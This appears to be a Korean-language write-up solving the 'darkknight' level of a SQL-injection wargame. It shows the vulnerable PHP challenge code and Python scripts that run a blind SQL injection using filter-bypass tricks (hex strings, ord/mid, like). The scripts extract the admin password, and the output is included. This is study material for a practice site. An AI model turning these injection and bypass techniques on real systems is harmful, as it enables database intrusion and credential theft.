 # darkknight

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- GET 파라미터 `no`에서는 `'`, `substr`, `ascii`, `=`을 필터링 한다.
- admin의 정확한 pw를 알아야 한다.

## 3. Solution
python 스크립트를 이용해 blind-sqlinjection 한다.

a. pw의 길이
b. pw의 값


### a. Length of pw
변수명 | 값
---|---:
`no` | 1234 or id like 0x61646d696e and length(pw) like `i`


small quotes가 필터링 되고 있기에, 문자열 'admin'은 hex값으로 전달하였다.<br>
'admin' &rarr; 0x61646d696e


이후, 비교값 `i`는 반복문을 통해 적당값(ex. 1~20)을 넣어준다.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?\
            no=1234 or id like 0x61646d696e %%26%%26 length(pw) like %d" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
```
---


### b. Value of pw

변수명 | 값
---|---:
`no` | 1234 or id like 0x61646d696e and ord(mid(pw,i,1)) like j #


마찬가지로 admin은 hex값에, `ascii`, `substr`은 각각 `ord`와 `mid`로 우회하였다.

a. Length of pw 의 코드에 추가해 보자.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?\
            no=1234 or id like 0x61646d696e %%26%%26 length(pw) like %d" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
        
pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?\
                no=1234 or id like 0x61646d696e %%26%%26 ord(mid(pw,%d,1)) like %d" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
pw(1) : 0
pw(2) : 0b
pw(3) : 0b7
pw(4) : 0b70
pw(5) : 0b70e
pw(6) : 0b70ea
pw(7) : 0b70ea1
pw(8) : 0b70ea1f
```
---



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.

변수명 | 값
---|---:
`pw` | 0b70ea1f